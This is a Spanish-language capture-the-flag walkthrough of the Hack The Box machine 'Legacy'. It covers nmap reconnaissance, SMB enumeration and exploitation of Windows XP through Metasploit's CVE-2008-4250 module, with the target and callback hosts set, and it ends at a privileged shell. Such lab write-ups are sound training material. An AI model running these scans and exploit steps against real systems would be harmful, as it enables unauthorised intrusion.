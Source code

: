 ```yaml
---
description: '✍️ Autor: ch4p 🔍 Dificultad: Fácil 📅 Fecha de creación: 10/10/2017'
---
```


# Legacy

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.10.4
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV 10.10.10.4
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Durante el escaneo se identificaron los siguientes puertos abiertos:

* **Puerto 135 (MS RPC):** Este puerto es utilizado para la comunicación de servicios como DCOM y MSRPC. Puede ser vulnerable a exploits si no está debidamente asegurado. Puedes buscar si hay alguna versión vulnerable de MSRPC, como las que se vieron con ataques como MS08-067.
* **Puerto 139 y 445 (SMB):** Ambos puertos están asociados a servicios de compartición de archivos y recursos en redes Windows. Los vectores de ataque conocidos incluyen ataques de SMB Relay y exploits como EternalBlue (CVE-2017-0144). Es recomendable realizar un escaneo de vulnerabilidades para verificar si estos puertos son accesibles desde fuera y si están expuestos a vulnerabilidades conocidas.

A continuación, se procederá a analizar cada uno de estos servicios en busca de posibles vectores de ataque.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p135,139,445 -v 10.10.10.4
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Miramos el protocolo SMB.

```bash
smbmap -H 10.10.10.4
```

No vemos nada. Revisamos si tiene un CVE.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Al ser un Windows XP y revisando por internet encontramos que hay un **CVE-2008-4250** por lo que abrimos Metasploit para explotarlo.

```bash
search CVE-2008-4250
use 0
show options
set RHOSTS 10.10.10.4
set LHOST 10.10.14.7
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
getuid
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Somos **root**.

<figure><img src="../../.gitbook/assets/image (1232).png" alt=""><figcaption></figcaption></figure>
